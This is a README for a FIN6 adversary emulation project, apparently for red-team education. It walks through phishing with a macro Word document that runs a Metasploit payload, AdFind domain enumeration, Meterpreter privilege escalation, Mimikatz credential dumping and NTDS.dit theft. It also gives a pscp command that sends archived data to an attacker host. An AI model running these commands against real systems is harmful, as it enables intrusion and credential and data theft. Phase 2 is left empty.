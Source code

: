 # FIN6 Adversary Emulation Project

This project emulates the tactics, techniques, and procedures (TTPs) of the FIN6 advanced persistent threat (APT) group. FIN6 is known for targeting payment card data in point-of-sale (POS) environments, leveraging techniques such as memory scraping, credential dumping, and exfiltration via DNS tunneling. This emulation focuses on phases 1 and 2 of the FIN6 attack.

Phase 1 Start by Phishing email which downloads a Word doc file after opening it. a PowerShell metasploit payload runs after the Discovery of Users, Computers, Groups, OU, and other parts of the domain after that, the attacker compresses and extracts all that data using SSH through that attacker doing Privilege Escalation using various methods.

Phase 2 :



## Overview

The primary goal of this emulation is to provide a realistic representation of FIN6 TTPs in a controlled environment for educational and research purposes. This project includes:
- An infected Word document simulating a phishing payload.
- The `adfind.exe` tool for Active Directory enumeration.
- A C++ memory scraper targeting sensitive card data.
- A custom C2 server receiving exfiltrated data via DNS tunneling.


## Phases Breakdown

### Phase 1

#### Initial Access

Spearphishing Attachment: T1566.001 


#### Execution

Command and Scripting Interpreter: PowerShell: T1059.001

FIN6 has targeted victims with e-mails containing malicious attachments Craft a malicious Word document with embedded macros that execute the Metasploit PowerShell payload upon opening.

[infectd_word_doc](Phase1/infected_word_doc.doc)

---

![infectd_word_doc](Phase1/Screenshots/1.png)


#### Discovery

FIN6 USED AdFind.exe to Find all person objects and output the results to a text file, Identify all computer objects and output the results to a text file, Enumerate all Organizational Units (OUs) in the domain of the user running the command and output the results to a text file, Performs a full forest search and dumps trust objects to a text file, List subnets and output the results to a text file, List groups and output the results to a text file. 


```cmd
adfind.exe -f (objectcategory=person) > ad_users.txt             # Account Discovery: Domain Account (T1087.002)
adfind.exe -f (objectcategory=computer) > ad_computers.txt       # Remote System Discovery (T1018) 
adfind.exe -f (objectcategory=organizationalUnit) > ad_ous.txt   # Domain Trust Discovery (T1482) 
adfind.exe -gcb -sc trustdmp > ad_trustdmp.txt                   # Domain Trust Discovery (T1482)
adfind.exe -subnets -f (objectcategory=subnet) > ad_subnets.txt  # System Network Configuration Discovery (T1016)
adfind.exe -f (objectcategory=group) > ad_group.txt              # Permission Groups Discovery: Domain Groups (T1069.002)
```

#### Privilege Escalation

FIN6 used various methods to Escalate their Privilege

FIN6 was reported to have escalated privileges to SYSTEM by using the named-pipe impersonation technique featured in the Metasploit framework
Access Token Manipulation: (T1134)

```sh
getsystem -t 1
```

FIN6 was reported to use Mimikatz to make OS Credential Dumping. We Will use  Mimikatz from a Meterpreter session.
OS Credential Dumping: LSASS Memory: T1003.001

```sh
load kiwi
creds_all
```

![Privilege Escalation 1,2](Phase1/Screenshots/2.png)

FIN6 was reported to  use Metasploit's psexec_ntdsgrab module. This module authenticates to the domain controller, creates a volume shadow copy of the system drive, and downloads copies of the NTDS.dit and SYSTEM hive. 
OS Credential Dumping: NTDS: T1003.003 

![Privilege Escalation 3](Phase1/Screenshots/3.png)

#### Collection

FIN6 was reported to  use 7zip (7.exe), on the designated staging system, to compress the text files resulting from internal discovery.
Archive Collected Data: Archive via Utility: T1560.001 

![Privilege Escalation 3](Phase1/Screenshots/4.png)

#### Exfiltration 

FIN6 was reported to exfiltrate the 7Zip files resulting from the Discovery Phase via SSH
Exfiltration Over Web Service: Exfiltration to Cloud Storage: T1567.002

```sh
pscp.exe -P {port} {path_on_windows}\ad.7z root@192.168.1.13:/temp/
```

## Credits

- This emulation project is inspired by open-source intelligence on the FIN6 APT group.
- Tools and techniques align with the MITRE ATT&CK framework.

---

